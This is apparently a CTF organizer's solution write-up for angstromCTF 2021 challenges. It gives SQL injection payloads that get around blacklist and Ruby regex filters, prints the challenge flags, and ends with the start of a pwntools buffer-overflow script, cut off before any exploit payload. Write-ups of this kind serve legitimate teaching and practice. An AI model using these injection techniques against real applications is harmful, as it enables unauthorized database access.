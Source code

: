 # ångstromCTF 2021

This past weekend I had the privilege of helping organize [ångstromCTF 2021](https://2021.angstromctf.com)!

These are the solutions to my challenges.

## Sea of Quills
From the `app.rb`, we can see that it filters our input in `cols`, `limit`, and `offset`. Because `cols` does not have a length check, we can simply bypass the blacklist.

We can find the name of the flag table by sending `cols` as `name from sqlite_master union select name`, `flagtable`. Some further digging shows that there is a column named `flag`.

Our final payload is:
```
cols: "flag FROM flagtable UNION SELECT name"
limit: "1"
offset: "0"
```

Flag: `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`


Note: this challenge was originally meant to be much harder, but I overlooked the cols injection. This is why SoQ 2 was released in the second wave.


## Sea of Quills 2
The new backend imposes a length check of <25 characters as well as blacklisting the string `flag` in cols. This was not enough to stop some people though, as you could bypass the new checks with some clever editing of the query for #1.

However, the intended solution was to use the fact that Ruby's regex matching only matches up to newlines. So, you could just have the rest of your payload in the `offset` field.

Payload:
```
cols: "* FROM(select name,desc"
limit: "1"
offset: "1\n) UNION SELECT flag, 1 FROM flagtable"
```

Flag: `actf{the_time_we_have_spent_together_riding_through_this_english_denylist_c0776ee734497ca81cbd55ea}`

## Tranquil
The code presents an obvious buffer overflow, as well as a win function. PIE is disabled and there is no stack canary, so we can overflow the saved $rip to the `win` function.


```python
from pwn import *

e = ELF("./tranquil")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process([e.path])
#p = remote("shell.actf.co", 21830)

#context.log_level="debug"
gdb.attach(p, """break * win""")


```